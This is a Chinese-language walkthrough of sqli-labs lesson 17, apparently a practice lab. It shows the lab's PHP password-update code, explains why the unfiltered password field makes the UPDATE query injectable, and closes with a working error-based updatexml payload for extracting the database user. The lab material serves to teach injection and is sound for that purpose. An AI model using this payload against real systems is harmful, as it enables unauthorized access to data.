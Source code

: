 ```yaml
---
description: 过滤
---
```


# lesson17

## 过滤函数

从此开始， 加入了过滤函数。 我们不但要构造可用payload，还要绕过过滤。

## lesson17

* input

```php
// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($_POST['uname']);  

$passwd=$_POST['passwd'];

```

可以看到 `$uname`处嵌套了`chek_input, 这就造成了字符限制。`

* sanitize

```php
function check_input($value){
	if(!empty($value))
	{
			// truncation (see comments)
			$value = substr($value,0,15);
	}

	// Stripslashes if magic quotes enabled
	if (get_magic_quotes_gpc())
	{
			$value = stripslashes($value);
	}

  // Quote if not a number
	if (!ctype_digit($value))
	{
		  $value = "'" . mysql_real_escape_string($value) . "'";
	}
	else
	{
		  $value = intval($value);
	}
	return $value;
	}
```

这个过滤函数做了三件事：

1. 截断，匹配0,1个字符
2. 如果开启了`get_magic_quotes_gpc()` 则去掉反斜杠转义（[http://www.nowamagic.net/librarys/veda/detail/1012](http://www.nowamagic.net/librarys/veda/detail/1012)）
3. 如果是数字型则`intval` 其他`mysql_real_escape_string`

* sink

```php
// connectivity 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

$result=mysql_query($sql);
$row = mysql_fetch_array($result);
//echo $row;
if($row)
{
  //echo '<font color= "#0000ff">';	
  $row1 = $row['username'];  	
	//echo 'Your Login name:'. $row1;
	$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
	mysql_query($update);
  echo "<br>";
  ...
```

这儿有两句sql，两次查询， 从业务功能上看，这是一个用户更新密码点，先查到用户信息，在通用户名去更新密码。

看第一句sql看上去不需要引号闭合。但是在过滤函数中如果不是数字就给加上单引号了， 这样就防护了数字型过滤。看上去比较难搞...

看看lesson17的介绍是 `Update Query- Error based` 也就是提示使用第二句。这里的`$passwd`是一个可控变量，而且在传入的时候并没有`check_input` 那么截断后边的`usernan` 我就控制了一个update语句。

这里首先你要在第一条语句能够查处内容来，才能通if的控制条件， username处填admin, 来到第二处，控制了一个单引号闭合的$passwd。

来看他的回显：

```php
		if (mysql_error())
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			print_r(mysql_error());
			echo "</br></br>";
			echo "</font>";
		}
		else
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			//echo " You password has been successfully updated " ;		
			echo "<br>";
			echo "</font>";
		}
```

这里有错误的回显，因此我们可以在这里构造报错注入：

* payload:
  * username: admin
  * new password: ' and \(updatexml\(1,concat\(0x7e,\(select user\(\)\),0x7e\),1\)\)\#

